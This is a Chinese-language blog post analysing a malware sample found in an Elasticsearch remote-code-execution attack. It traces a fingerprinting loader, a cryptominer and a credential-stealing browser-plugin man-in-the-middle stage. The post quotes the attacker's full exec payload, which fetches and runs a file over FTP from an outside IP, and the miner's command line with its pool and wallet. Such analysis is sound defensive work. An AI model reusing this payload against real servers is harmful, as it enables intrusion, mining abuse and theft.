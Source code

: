 ```yaml
---
layout: post
title: 一个简单的样本分析
description: "去年获取的某个样本分析"
category: analysis
tags: [analysis]
imagefeature: http://7xwdx7.com1.z0.glb.clouddn.com/5551e1cabd3bb.jpg
comments: true
share: true
---
```


### 背景

去年的某一天，在elastic search的某个QQ交流群中，有人贴出了一段日志，显示他的服务器被人进行了远程代码执行的攻击，日志内容如下：

{% highlight json %}

{
  "script": "java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("cmd.exe /c echo open 58.215.19.139>f&echo 111>>f&echo qwe>>f&echo bin>>f&echo get h.zip>>f&echo bye>>f&ftp -s:f&cscript.exe /b /e:VBScript.Encode h.zip&del /f/q f&exit").getText()"
}

{% endhighlight %}

脚本大意是创建一个ftp脚本，从IP地址58.215.19.139下载一个名为h.zip的文件，并以vbscript的方式进行执行，执行完成后删除脚本。

### 展开初步分析

为了学习理解攻击方式，我下载了这个攻击载荷，并通过对vbscript的解码还原了该攻击载荷的攻击流程和攻击方式。

h.zip作为打头进行运行的恶意载荷负责进行系统信息探测和恶意程序加载工作。首先，它对以下相关系统信息进行探测：

* 获取注册表中操作系统语言
* 获取注册表中操作系统版本号
* 获取注册表中cpu核数
* 测试肉鸡是否能够翻墙
* 获取当前系统开机运行时间

在完成系统信息探测后，根据不同的操作系统版本、操作系统语言和操作系统用途，打头程序加载不同的恶意程序感染肉鸡的操作系统。

* 操作系统为XP，语言为简体或繁体中文且无法翻墙-->加载中文版本某mof文件
* 操作系统为XP，语言为简体或繁体中文且可以翻墙-->加载英文版本某mof文件
* 对于操作系统为XP，语言为简体或繁体中文的机器，进一步对其当前操作系统运行时间进行识别。若连续运行时间大于9小时，则使用dl.vbs进行下一步感染，dl.vbs感染的恶意程序主要用来连接比特币矿池进行挖矿；若连续运行时间小于9小时，则使用bdved.vbs进行下一步感染，bdved.vbs加载的恶意程序带有在用户进行网购时进行盗号的功能。
* 对于非XP版本或者其他语言版本的windows操作系统，加载英文版本某mof文件，并使用dl.vbs进行下一步感染。

### dl.vbs感染的恶意程序的主要功能

dl.vbs使用户下载一个dat文本文件和一个pe执行体，该dat文本文件中使用pe执行体执行如下命令：
`mstdc.exe -a m7 -o stratum+tcp://xcnpool.1gh.com:7333 -u CGX2U2oeocN3DTJhyPG2cPg7xpRRTzNZkz -p x --retries 5 --retry-pause=20`

该命令作用为开启一个名为MaxCoin 的矿池所使用的挖矿客户端，攻击者所使用的帐户为CGX2U2oeocN3DTJhyPG2cPg7xpRRTzNZkz。该矿池地址：http://max.1gh.com/

![MaxCoin](http://7xwdx7.com1.z0.glb.clouddn.com/MaxCoin.png)

### bdved.vbs感染的恶意程序的主要功能

bdved.vbs感染的恶意程序更为复杂，它含有两个压缩包、一个unrar.exe文件和一个bat文件。它的启动原理和攻击方式都更为隐蔽。攻击者通过命令：ping -n 5 127.0.0.1进行延时操作，不在下载完成的第一瞬间启动恶意程序。

恶意程序分为32位和64位两种版本，拥有不同的启动方式和可执行文件，具体的技术细节仍需要通过进一步分析进行还原。

值得注意的是该恶意软件的盗号方式比较新颖，使用的是浏览器插件+中间人攻击的方式。恶意软件启动后，一旦肉鸡操作系统安装了某些特定厂商的浏览器，恶意程序就试图在这些浏览器中安装用来进行中间人攻击的插件。

这些插件通过篡改浏览器端页面内的链接对http或https流量进行中间人攻击劫持，用户在登陆时提交的用户名、密码能够被攻击者截获并记录。具体原理如下：
* 恶意程序在肉鸡操作系统的360安全浏览器或百度浏览器安装恶意插件
* 浏览器恶意插件在用户访问以下域名时实施中间人攻击
* 恶意的浏览器插件将用户访问的页面地址及标题上传至控制端，控制端可以插入js脚本执行各种攻击动作。

攻击者关心的域名列表：

![域名列表](http://7xwdx7.com1.z0.glb.clouddn.com/domainList.png)

上传至控制端的链接地址：
![url1](http://7xwdx7.com1.z0.glb.clouddn.com/url1.png)
![url2](http://7xwdx7.com1.z0.glb.clouddn.com/url2.png)

完整攻击步骤可以整理为下图中所示：
![攻击步骤整理](http://7xwdx7.com1.z0.glb.clouddn.com/step.png)

### 一些思考
国内杀软通常会捆绑浏览器等大量系统软件，也就是所谓的“全家桶”。然而，这些附带的浏览器等系统软件居然被用来当作盗号的切入点。这些系统软件显然具有较高的优先级，杀毒软件没有对浏览器插件等进行严格的扫描和权限控制，这一点还是非常值得深入思考的。不得不说，有的时候最好的盾牌也是最锋利的长矛。

